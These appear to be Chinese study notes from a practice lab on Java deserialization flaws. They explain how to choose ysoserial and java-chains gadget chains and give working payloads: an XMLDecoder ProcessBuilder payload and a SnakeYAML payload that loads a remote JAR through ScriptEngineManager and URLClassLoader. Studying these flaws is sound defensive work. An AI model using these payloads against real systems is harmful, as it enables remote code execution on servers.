> - **Java 版本**：高版本 Java（如 8u121+、9+）引入了`serialFilter`、模块化限制等，可能阻断部分链（如`CommonsCollections1`在高版本 Java 中可能因反射权限被禁而失效）。
> - **安全管理器（SecurityManager）**：若目标启用了安全管理器，可能限制`Runtime.exec()`等关键操作，需选择绕开限制的链。
>
> ### 二、工具使用时的链选择逻辑
>
> 以最常用的`ysoserial`为例，其内置了数十种链（如`CommonsCollections1`、`URLDNS`、`ROME`等），选择逻辑如下：
>
> #### 1. 先用 “无危害探测链” 验证反序列化漏洞存在
>
> 优先使用**仅触发网络请求或日志记录**的链，避免对目标造成影响，同时验证反序列化入口是否有效。例如：
>
> - URLDNS 链：触发目标对指定域名的 DNS 查询（可通过 DNSlog 平台监测），适用于几乎所有环境（仅依赖 JDK 内置类）。
>   - 若 DNSlog 有记录 → 目标存在反序列化漏洞，可继续尝试执行命令的链；
>   - 若无记录 → 可能入口无效，或被序列化过滤拦截。
>
> #### 2. 根据依赖库匹配可执行命令的链
>
> 确认漏洞存在后，根据收集到的依赖库信息，选择对应的链：
>
> - **若存在 Apache Commons Collections（3.x）**：优先尝试`CommonsCollections1`（最经典，兼容性广）；若失败，依次测试`CommonsCollections2-7`（针对不同调用路径）。
> - **若存在 ROME 库**：使用`ROME`链（依赖`rome-1.0.jar`中的`ObjectBean`类）。
> - **若存在 Jackson 库（低版本）**：使用`Jackson`链（利用`@JsonTypeInfo`反序列化任意类）。
> - **若为 WebLogic 服务器**：尝试`wls9_async`、`wls10`等专属链（依赖 WebLogic 的`weblogic.jms.common.StreamMessageImpl`等类）。
>
> #### 3. 排除法：从 “高兼容性” 到 “专属链”
>
> 若环境信息不明确，可按以下顺序测试（兼容性从高到低）：
>
> 1. **JDK 内置类链**：如`URLDNS`（探测用）、`Jdk7u21`（依赖 JDK 7u21 及以下的`sun.rmi.server.UnicastRef`类）。
> 2. **高流行度库链**：如`CommonsCollections1`（Apache Commons Collections 应用极广）、`Log4j`（若存在特定版本）。
> 3. **应用服务器专属链**：如 WebLogic、JBoss、Jenkins 等各自的链。
> 4. **小众库链**：如`C3P0`、`JBossInterceptors`等（仅当确认目标存在对应库时尝试）。
>
> ### 三、典型场景示例
>
> - **场景 1**：目标错误页显示`org.apache.commons.collections.map.LazyMap` → 存在 Commons Collections 3.x → 优先用`CommonsCollections1`。
> - **场景 2**：目标是 WebLogic 10.3.6 → 尝试`wls9_async`链（WebLogic 专属，无需第三方库）。
> - **场景 3**：目标 Java 版本为 8u200+ → 避开`CommonsCollections1`（可能因反射限制失效），尝试`Groovy`链（若存在 Groovy 库）。
>
> ### 总结
>
> 核心逻辑：**“环境决定链”**。先通过各种方式收集目标的依赖库、版本、应用类型等信息，再对照工具中链的 “依赖条件”（可查看 ysoserial 源码中各链的实现，了解其依赖的类），最终匹配出可能有效的链。若信息不足，从高兼容性链开始逐步测试，结合执行结果（如命令回显、文件写入、DNSlog）验证有效性。

-https://github.com/frohoff/ysoserial    经典工具

-https://github.com/vulhub/java-chains   本次使用

#### Java-chains

https://github.com/vulhub/java-chains 

部署按照教程部署

使用



将生成的payload复制到靶场中，也可以弹出计算器

### xmldecoder

在靶场中直接输入执行的命令就可以执行了



原理剖析

> ### 一、代码对数据包的处理流程
>
> 当浏览器发送`GET /home/deserialize/xmldecoder?cmd=calc HTTP/1.1`请求后，代码的执行步骤如下：
>
> 1. **接收用户输入**：
>    控制器方法`xmlDecoder`通过`String cmd`参数获取 URL 中`cmd=calc`的值（即用户输入的`calc`）。
>
> 2. **构建恶意 XML**：
>    代码将`cmd`按空格分割为字符串数组（这里`cmd=calc`分割后为`["calc"]`），然后动态拼接成一个 XML 文档：
>
>    ```xml
>    <?xml version="1.0" encoding="UTF-8"?>
>    <java version="1.8.0_151" class="java.beans.XMLDecoder">
>        <object class="java.lang.ProcessBuilder">
>            <array class="java.lang.String" length="1">
>                <void index="0">
>                    <string>calc</string>
>                </void>
>            </array>
>            <void method="start" />
>        </object>
>    </java>
>    ```
>
>    这个 XML 的含义是：创建一个`ProcessBuilder`对象，传入参数`["calc"]`，并调用其`start()`方法（用于执行系统命令）。
>
> 3. **XML 反序列化执行**：
>    代码使用`java.beans.XMLDecoder`解析上述 XML：
>
>    - 通过`ByteArrayInputStream`将 XML 字符串转为输入流；
>    - 调用`xmlDecoder.readObject()`方法，触发 XML 反序列化过程；
>    - `XMLDecoder`会按照 XML 定义，实例化`ProcessBuilder`对象并执行`start()`方法，最终在服务器上执行`calc`命令（打开计算器）。
>
> 4. **返回结果**：
>    无论成功或失败，都会将结果（如 “执行成功” 或异常信息）通过`model`传递到前端页面展示。

### SnakeYaml

#### 原理

> SnakeYAML 是 Java 中常用的 YAML 格式解析库，其反序列化功能用于将 YAML 文档转换为 Java 对象。但在默认配置下，SnakeYAML 的反序列化存在安全风险，可能被攻击者利用执行恶意代码。其核心原理可分为**正常解析流程**和**安全风险成因**两部分：
>
> ### 一、SnakeYAML 反序列化的正常流程
>
> SnakeYAML 的反序列化本质是 “根据 YAML 文档的描述，实例化并组装 Java 对象”，核心步骤如下：
>
> 1. **解析 YAML 文档**
>    当调用`Yaml.load()`（或`loadAs()`等方法）时，SnakeYAML 首先会解析输入的 YAML 字符串，识别其中的**数据结构**（如映射、列表、标量）和**类型标签**（用于指定 Java 类）。
>    YAML 中通过`!!`标签指定要实例化的 Java 类，例如：
>
>    ```yaml
>    !!java.util.HashMap
>    key: value
>    ```
>
>    表示 “反序列化为一个`java.util.HashMap`对象，其键值对为`key: value`”。
>
> 2. **通过 Constructor 创建对象**
>    SnakeYAML 的`Constructor`类是反序列化的核心组件，负责将解析后的 YAML 节点转换为 Java 对象：
>
>    - 对于基本类型（如字符串、数字）或简单集合（如`List`、`Map`），`Constructor`会直接创建对应实例并赋值；
>    - 对于自定义类或复杂类型，Constructor会：
>      1. 根据 YAML 中的类名（如`!!com.example.User`）通过反射找到对应的 Java 类；
>      2. 调用该类的构造方法（默认优先无参构造，也支持有参构造）实例化对象；
>      3. 解析 YAML 中的属性（如`name: "test"`），通过反射设置对象的字段值（或调用 setter 方法）。
>
> 3. **组装对象并返回**
>    若 YAML 中包含嵌套结构（如对象中包含另一个对象），`Constructor`会递归执行上述步骤，最终组装出完整的对象树并返回。
>
> ### 二、安全风险：默认配置下的反序列化漏洞成因
>
> SnakeYAML 的风险核心在于**默认 Constructor 允许实例化任意 Java 类**，且在对象实例化 / 属性赋值过程中可能触发危险方法，导致攻击者可构造恶意 YAML 执行代码。具体原因如下：
>
> 1. **无限制的类实例化**
>    默认情况下，`Yaml`对象使用`DefaultConstructor`，该构造器不限制可实例化的类 —— 只要 YAML 中指定了全类名（如`!!java.lang.Runtime`），SnakeYAML 就会尝试通过反射创建该类的实例。
>
>    这意味着攻击者可以在 YAML 中指定**具有危险行为的类**（如`java.lang.ProcessBuilder`、`java.lang.Runtime`等可执行系统命令的类）。
>
> 2. **方法调用与属性赋值的副作用**
>    部分类在**实例化**或**属性设置**过程中会触发危险操作：
>
>    - 例如，`ProcessBuilder`的`start()`方法可执行系统命令，若攻击者在 YAML 中构造`ProcessBuilder`并触发其`start()`调用，即可在服务器执行命令；
>    - 某些类的 setter 方法或构造方法本身包含危险逻辑（如文件操作、网络连接），反序列化时会被自动调用。
>
> 3. **恶意 YAML payload 示例**
>    一个典型的恶意 YAML payload 如下，用于执行`calc`命令（打开计算器）：
>
>    > !!java.lang.ProcessBuilder [["calc"]]
>
>    解析过程：
>
>    - `!!java.lang.ProcessBuilder`指定实例化`ProcessBuilder`类；
>    - `[["calc"]]`表示调用`ProcessBuilder`的有参构造方法（参数为字符串数组`["calc"]`）；
>    - 虽然未显式调用`start()`，但部分版本的 SnakeYAML 在解析时会隐式触发或通过其他方式间接调用（实际攻击中可能需要更复杂的链式调用）。
>
> ### 三、总结
>
> SnakeYAML 反序列化的核心原理是 “基于 YAML 标签和数据，通过反射动态创建并组装 Java 对象”。其安全风险源于**默认配置下对可实例化类无限制**，攻击者可构造恶意 YAML，让 SnakeYAML 实例化危险类并触发其方法，最终执行恶意代码。
>
> 安全使用方式：通过自定义`Constructor`限制可反序列化的类（白名单机制），禁止实例化`ProcessBuilder`、`Runtime`等危险类。



对于靶场中当提交payload后

#### 流程

> ### 一、后端代码的处理逻辑
>
> 后端代码是一个 Spring 控制器，核心逻辑如下：
>
> 1. 接收前端传入的`content`参数（即用户可控的 YAML 字符串）；
> 2. 使用 SnakeYAML 的`Yaml`类（默认配置）调用`load(content)`方法，对 YAML 字符串进行反序列化；
> 3. 反序列化过程会根据 YAML 中的定义实例化 Java 对象，并返回结果。
>
> **关键风险点**：代码使用了`new Yaml()`的默认构造，此时 SnakeYAML 会使用`DefaultConstructor`—— 该构造器**不限制可实例化的类**，允许攻击者指定任意 Java 类进行反序列化。
>
> ### 二、Payload 的结构与执行流程
>
> 传入的 YAML payload 为：
>
> ```yaml
> !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ['http://127.0.0.1:8000/upload/yaml-payload.jar']]]]
> ```
>
> 其本质是通过 SnakeYAML 的反序列化机制，依次实例化三个关键类，形成攻击链：`URL` → `URLClassLoader` → `ScriptEngineManager`，最终触发恶意代码执行。具体流程如下：
>
> #### 1. 实例化`java.net.URL`对象
>
> - YAML 中`!!java.net.URL ['http://127.0.0.1:8000/upload/yaml-payload.jar']`表示：
>   反序列化一个`URL`对象，指向攻击者控制的恶意 JAR 包地址（`http://127.0.0.1:8000/upload/yaml-payload.jar`）。
>
> #### 2. 实例化`java.net.URLClassLoader`对象
>
> - YAML 中`!!java.net.URLClassLoader [[...]]`表示：
>   反序列化一个`URLClassLoader`（类加载器），其构造参数是上一步创建的`URL`数组（即恶意 JAR 的地址）。
>
>   `URLClassLoader`的作用是**从指定的 URL（远程或本地）加载类文件**。这里配置后，该类加载器会从`yaml-payload.jar`中加载类。
>
> #### 3. 实例化`javax.script.ScriptEngineManager`对象
>
> - YAML 中`!!javax.script.ScriptEngineManager [...]`表示：
>   反序列化一个`ScriptEngineManager`（脚本引擎管理器），其构造参数是上一步创建的`URLClassLoader`。
>
>   `ScriptEngineManager`的核心特性是：**在初始化时会自动扫描并加载可用的脚本引擎**（通过`ServiceLoader`机制）。具体来说：
>
>   - 它会使用传入的`URLClassLoader`去加载`yaml-payload.jar`中的类；
>   - 若该 JAR 包中包含符合 “脚本引擎规范” 的恶意类（例如，在`META-INF/services/javax.script.ScriptEngineFactory`文件中声明的类），`ScriptEngineManager`会通过`URLClassLoader`加载并实例化这些恶意类；
>   - 恶意类的构造方法或初始化逻辑中可以包含任意代码（如执行系统命令、反弹 shell 等），此时会被自动执行。


